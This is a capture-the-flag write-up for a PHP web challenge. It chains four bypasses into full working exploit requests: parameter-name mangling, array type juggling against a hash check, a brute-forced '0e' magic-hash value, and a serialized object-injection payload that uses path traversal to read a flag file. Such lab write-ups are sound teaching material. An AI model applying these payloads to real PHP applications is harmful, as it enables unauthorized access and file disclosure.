


# Ultimate PHP

[challenge.zip](assets/challenge/handout.zip)

At the start page, we can pass a `manual` parameter to load a file from the server, but the code has some protections: we cannot use the `php://` scheme, and the file extension must be `.php`. I tried some tricks, such as inserting a null byte or using path traversal, but neither worked.

So I changed my target and then scrolled down the file. We can see the steps needed to pass the gateway's administrator access check.

First,

```php
$rawQuery = $_SERVER['QUERY_STRING'] ?? '';

if (str_contains(rawurldecode($rawQuery), 'access_level')) {
    fail_request('The access_level parameter is protected');
}

if (($_GET['access_level'] ?? '') !== 'administrator') {
    fail_request('Administrator access required');
}
```

[[https://github.com/symfony/symfony/issues/9009]]

In PHP, we can use `.` instead of `_` in parameter names, so I just need to add `&access.level=administrator` to bypass this check.

Second,

```php
$primary = $_GET['primary'] ?? null;
$backup = $_GET['backup'] ?? null;

if ($primary === null || $backup === null) {
    fail_request('Both recovery answers are required');
}

if (get_debug_type($primary) !== get_debug_type($backup)) {
    fail_request('Recovery answers must use the same format');
}

if ($primary === $backup) {
    fail_request('Recovery answers must be different');
}

$primaryMaterial = 'legacy-recovery:v1:' . $primary;
$backupMaterial = 'legacy-recovery:v1:' . $backup;

$primaryHash = hash('sha256', $primaryMaterial);
$backupHash = hash('sha256', $backupMaterial);

if (!hash_equals($primaryHash, $backupHash)) {
    fail_request('Recovery fingerprints do not match');
}
```

This may be too tricky. To bypass it, we need to find two different values with the same data type that produce the same hash. [SHA-256 collisions are very rare.](https://crypto.stackexchange.com/questions/47809/why-havent-any-sha-256-collisions-been-found-yet)

https://www.php.net/manual/en/language.variables.external.php

From this documentation, we can see that this code accepts any data type. What about arrays?

`GET /?access.level=administrator&primary[]=&backup[]=0`

When we pass these parameters:

```php
$_GET = 
[
	'primary' => [0 => ''],
	'backup'  => [0 => '0'],
]
```

we can test:

```php
$GET = 
[
	'primary' => [0 => ''],
	'backup'  => [0 => '0'],
];
$primary = $GET['primary'];
$backup = $GET['backup'];
if ($primary === $backup) echo "failed";
else echo "bypassed" . "\n";
echo $primary . "\n" . $backup;
/*
Output:
bypassed
Array
Array
*/
```

`$primary` and `$backup` are initially arrays, so they are not identical and pass the `===` check. Then, when we use `echo` to print them(is equivalent to concatenating them into the original code), PHP must convert them to strings, so their value becomes `Array` (following PHP's conversion behavior). They are therefore equal. Now both values are the same string, so they produce the same hash. It bypassed!

Third,

```php
$code = $_GET['code'] ?? '';

if (!is_string($code) || strlen($code) > 64) {
    fail_request('Invalid migration code');
}

$material = 'ULTIMATIVE-PHP-2026:' . $code;
$legacyDigest = substr(hash('md5', $material), 0, 9);
$modernDigest = substr(hash('sha256', $material), 0, 9);

if (!($legacyDigest !== $modernDigest && $legacyDigest == $modernDigest)) {
    fail_request('The compatibility code was rejected', [
        'legacy' => $legacyDigest,
        'modern' => $modernDigest,
    ]);
}
```

In short, we need a code where the MD5 and SHA-256 digests are different as strings (`!==`), but equal under loose comparison (`==`).

We need to understand some comparison operators in PHP:

`!==`: not equal, or not the same type

`==`: equal

[[https://www.php.net/manual/en/language.operators.comparison.php]]

[[https://www.php.net/manual/en/types.comparisons.php]]

From these docs, we can see that `0 == "0"`. But in this case, both values are strings...

[[https://medium.com/@huzefa0x01/authentication-bypass-via-php-loose-comparison-exploiting-type-juggling-in-a-password-reset-flow-32cf196b6ce0]]

In short, if an MD5 hash or a string starts with `0e` followed only by digits, PHP interprets it as `0 * 10^n`, which evaluates to `0.0` as a float. So it is converted to a number. The bypass is to find a code whose MD5 and SHA-256 hashes both start with `0e` followed only by digits.

I wrote a simple script to find it:

```python
import hashlib

def check2(s: str):
  s = s[2::]
  try:
    int(s)
    return True
  except Exception:
    return False
    

def check(s: str):
    s = 'ULTIMATIVE-PHP-2026:' + s
    md5 = hashlib.md5(s.encode()).hexdigest()[0:9]
    if not md5.startswith("0e"):
        return False
    sha = hashlib.sha256(s.encode()).hexdigest()[0:9]
    if not sha.startswith("0e"):
        return False
    return check2(md5) and check2(sha)

code = 0
while not check(str(code)):
    code += 1
print(code)
#output: 59036305
```

`GET /?access.level=administrator&primary[]=&backup[]=0&code=59036305`

The last step:

```php
final class MigratedProfile
{
    public $displayName = 'guest';

    public function __toString(): string
    {
        return (string) $this->displayName;
    }
}

final class LegacyTemplate
{
    public $template = 'welcome.txt';

    public function __toString(): string
    {
        if (strpos($this->template, '../')) {
            return '[invalid template]';
        }

        $path = __DIR__ . '/templates/' . $this->template;
        $contents = file_get_contents($path);

        return $contents === false ? '[missing template]' : $contents;
    }
}
```

...

```php
$encodedProfile = $_GET['profile'] ?? '';

if (!is_string($encodedProfile)) {
    fail_request('Invalid profile encoding');
}

$serializedProfile = decode_base64url($encodedProfile);

if ($serializedProfile === false) {
    fail_request('Invalid profile encoding');
}

$profile = @unserialize($serializedProfile, [
    'allowed_classes' => [MigratedProfile::class, LegacyTemplate::class],
]);

if (!$profile instanceof MigratedProfile) {
    fail_request('Unsupported profile type');
}

page_start('Migration completed');
echo '<section class="result"><p class="eyebrow">Verification complete</p>';
echo '<h2>Profile imported</h2><p class="lead">Welcome to the modern identity platform.</p>';
echo '<p class="flag">' . htmlspecialchars((string) $profile, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') . '</p>';
echo '</section>';
page_end();
```

In short, we need to pass a `profile` parameter encoded in Base64. The profile is a [serialized](https://www.php.net/manual/en/function.serialize.php) string. Serialization is a way to convert an object into a string for transfer. The server will deserialize it, but the result must be a `MigratedProfile` object (it has two conditions), and then it will be printed.

`LegacyTemplate` lets us read files from the server. We can use path traversal to read `/tmp/flag` (you can find the path in the Dockerfile):

```php
if (strpos($this->template, '../')) {
	return '[invalid template]';
} // strpos() returns the index of the needle
```

We just need to put `../` at the start of `$template` to bypass the check.

```php
if (0) --> false
```

However, `$profile` must be a `MigratedProfile` object, so I will put the flag in the `displayName` property of this class, and then it will be shown.

```php
<?php
final class MigratedProfile
{
    public $displayName = 'guest';

    public function __toString(): string
    {
        return (string) $this->displayName;
    }
}

final class LegacyTemplate
{
    public $template = 'welcome.txt';

    public function __toString(): string
    {
        if (strpos($this->template, '../')) {
            return '[invalid template]';
        }

        $path = __DIR__ . '/templates/' . $this->template;
        $contents = file_get_contents($path);

        return $contents === false ? '[missing template]' : $contents;
    }
}

$data = new LegacyTemplate();
$data->template = "../../../../../../../../../../../../../../tmp/flag";
$data->__toString();
$flag = new MigratedProfile();
$flag->displayName = $data;
echo serialize($flag);
/*
Output:
O:15:"MigratedProfile":1:{s:11:"displayName";O:14:"LegacyTemplate":1:{s:8:"template";s:50:"../../../../../../../../../../../../../../tmp/flag";}}
*/
?>
```

Then Base64-encode the serialized `$profile`:

`GET /?access.level=administrator&primary[]=&backup[]=0&code=59036305&profile=TzoxNToiTWlncmF0ZWRQcm9maWxlIjoxOntzOjExOiJkaXNwbGF5TmFtZSI7TzoxNDoiTGVnYWN5VGVtcGxhdGUiOjE6e3M6ODoidGVtcGxhdGUiO3M6NTA6Ii4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL3RtcC9mbGFnIjt9fQ==`


